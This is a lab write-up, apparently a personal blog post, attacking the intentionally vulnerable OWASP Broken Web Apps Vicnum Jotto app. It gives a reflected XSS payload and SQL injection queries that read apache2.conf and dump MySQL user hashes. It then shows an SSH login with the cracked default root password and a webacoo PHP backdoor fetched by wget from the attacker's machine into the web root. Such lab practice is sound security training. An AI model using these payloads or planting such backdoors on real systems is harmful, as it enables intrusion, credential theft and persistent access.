 +++
title = "OWASP Broken Web Apps Vicnum - Jotto"
slug = "owasp-broken-web-apps-vicnum-jotto"
default_language = "en"
[taxonomies]
categories=["vulnerable-web-app"]
tags=["web", "owasp"]
+++

I started off just playing the game to see what happens moving through the workflow.  After guessing the word in 43 tries I noticed that the count is being passed from the success page over to the scoreboard, much like its sibling application this ends up being something we can modify in transit.

The second time round I made a wordlist of the second word to guess once I figured out it had an r in it:

```bash
cewl -w wordlist.txt -v -d 0 -m 5 http://www.wordbyletter.com/words_starting_with.php?q=r
```

Luckily it did end up starting with an r, that way I didn't have to play the annoying game again just to modify my number of guesses.

After getting to the scoreboard page I noticed that the name get parameter is being injected into an HTML string on the page, try making this the name:

```javascript
&lt;script&gt;alert(1)&lt;/script&gt;
```

into the URL for the name GET parameter worked.

The name parameter also seems like it might be vulnerable to SQLi

Doing a quick:

```sql
' or 1 = 1 #
```

shows query results for all users on the page, so we know its injectable.

Now to get something a little more juicy:
```sql
union all select load_file('/etc/apache2/apache2.conf'),2,3,4#
```

This will return the entire apache web config in its entirety.

I suppose just like its sibling lets break in:

```sql
'  union all select user,password,3,4 from mysql.user#
```

As in the sibling application this page can be used to get root's password: https://www.hashkiller.co.uk/ which found the root password in question: owaspbwa, this matches the readme when the VM boots up.

Next lets ssh to the VM:

```bash
ssh root@ip
pw: owaspbwa
```

Now for a persisted backdoor, webacoo worked for the last one, why not use it again.

```bash
webacoo -g -o bd.php
```

Next fire up SimpleHTTPServer in Parrot and change directory to the web root /var/www on the VM and run:

```bash
wget http://iptoparrot:8000/bd.php
```

Then to test things out:

```bash
webacoo -t -u http://ip/bd.php
```
